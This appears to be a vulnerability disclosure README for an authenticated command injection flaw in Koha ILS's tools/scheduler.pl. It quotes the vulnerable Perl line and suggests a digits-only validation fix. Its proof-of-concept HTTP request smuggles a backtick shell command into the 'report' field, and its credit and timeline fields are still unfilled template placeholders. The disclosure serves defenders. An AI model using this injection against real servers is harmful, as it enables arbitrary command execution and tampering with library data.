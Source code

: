 # Koha ILS Command Injection Vulnerability

This repository documents a command injection vulnerability in Koha Integrated Library System affecting versions prior to 24.05.07, 24.11.02, 23.11.12, and 22.11.24.

## Vulnerability Details

- **CVE ID**: CVE-YYYY-XXXXX (pending assignment)
- **Vulnerability Type**: Command Injection
- **CWE**: CWE-78 (Improper Neutralisation of Special Elements used in an OS Command)
- **Affected Component**: tools/scheduler.pl
- **Affected Versions**: 
  - < 24.05.07
  - < 24.11.02 
  - < 23.11.12
  - < 22.11.24

## Description

Koha Integrated Library System contains an authenticated command injection vulnerability in the task scheduler functionality. The vulnerability exists in `tools/scheduler.pl` where user input from the `$report` parameter is directly interpolated into a shell command without proper sanitisation. An authenticated administrator with access to the scheduler functionality can execute arbitrary commands on the server.

## Technical Details

The vulnerability is present in lines 92-94 of `tools/scheduler.pl`:

```perl
my $command =
      "export KOHA_CONF=\"$CONFIG_NAME\"; "
    . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
```

The `$report` variable comes from user input and undergoes insufficient validation. While the code checks that a report ID exists in the database, it doesn't sanitise the value against command injection attacks. An attacker can bypass this validation by providing a valid report ID followed by shell metacharacters.

## Proof of Concept

The following HTTP request can be used to exploit the vulnerability:

```http
POST /cgi-bin/koha/tools/scheduler.pl HTTP/1.1
Host: [koha-instance]
Content-Type: application/x-www-form-urlencoded
Cookie: [authentication-cookies]

csrf_token=[token]&op=cud-add&starttime=16:33&startdate=&report=19012025```echo "RCE test" > /tmp/rce.txt```&format=text&email=test@example.com
```

This creates a file `/tmp/rce.txt` containing "RCE test" on the target server.

## Impact

This vulnerability allows an authenticated administrative user to:
- Execute arbitrary commands with the permissions of the web server user
- Access, modify, or delete library data
- Potentially gain further access to the host system

## Recommended Fixes

Implement proper input validation and command sanitisation:

```perl
# Validate that $report contains only digits
if ($report && $report =~ /^\d+$/) {
    my $command =
          "export KOHA_CONF=\"$CONFIG_NAME\"; "
        . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
    # Rest of code...
}
else {
    # Handle invalid input
    $template->param( job_add_failed => 1 );
}
```

## Responsible Disclosure

This vulnerability was reported to the Koha project maintainers on [DATE], and has been fixed in the following releases:
- 24.05.07
- 24.11.02
- 23.11.12
- 22.11.24

## Timeline

- **Discovery**: [Your discovery date]
- **Reported**: [Your report date]
- **Fixed**: [Fix date]
- **Public disclosure**: [Disclosure date]

## Credit

Discovered by [Your Name/Organisation]

## References

1. [Link to Koha security advisory when available]
2. [Link to patch/commit when available]
